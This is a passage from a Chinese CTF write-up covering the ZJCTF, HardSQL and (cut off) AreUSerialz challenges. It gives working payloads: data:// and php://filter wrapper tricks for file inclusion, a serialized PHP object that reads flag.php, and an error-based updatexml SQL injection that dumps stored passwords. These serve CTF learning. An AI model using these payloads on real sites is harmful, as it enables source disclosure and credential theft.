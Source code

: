 打开环境

![image-20210903194919768](20210903194922.png)

首先要读取一个文件名为变量$text的文件，然后判断是否等于这个字符串

使用data伪协议：

`?text=data://text/plain,welcome to the zjctf`

再看嵌套的if，可以看到这里的file是不能包含flag的。看else语句，有提示include一个useless.php

这里直接Include会被php解析，使用php伪协议转base64：

`file=php://filter/read=convert.base64-encode/resource=useless.php`

![image-20210903201058441](20210903201059.png)

读代码

![image-20210903201125154](20210903201126.png)

读到源码之后直接include一下useless.php。看上面的useless.php源码，里面是有tostring方法的。

因此只需要把password正常反序列化，然后输出即可：

    ?text=data://plain/text,welcome to the zjctf&file=useless.php&password=O:4:"Flag":1:{s:4:"file";s:8:"flag.php";}

![image-20210903211524750](20210903211525.png)

## [极客大挑战 2019]HardSQL

> 考点：报错注入
> 
> 空格过滤

这里略微写下，就不直接复现了

注意几个点：

1.在mysql里面过滤了空格可以用括号代替，比如`select(schema_name)from(information_schema.schemata)`

2.根据上面的可以用报错注入，`updatexml(1,语句,1)`

3.left可以看前面，当然right()就可以看后面，我这里用的是reverse()

    ?username=1&password=2'or(updatexml(1,(concat('~',reverse((select(group_concat(concat(password,'-',id)))from(H4rDsq1))),'~')),1))%23

## [网鼎杯 2020 青龙组]AreUSerialz

> 考点：php反序列化
> 
> php弱类型比较

阅读源码
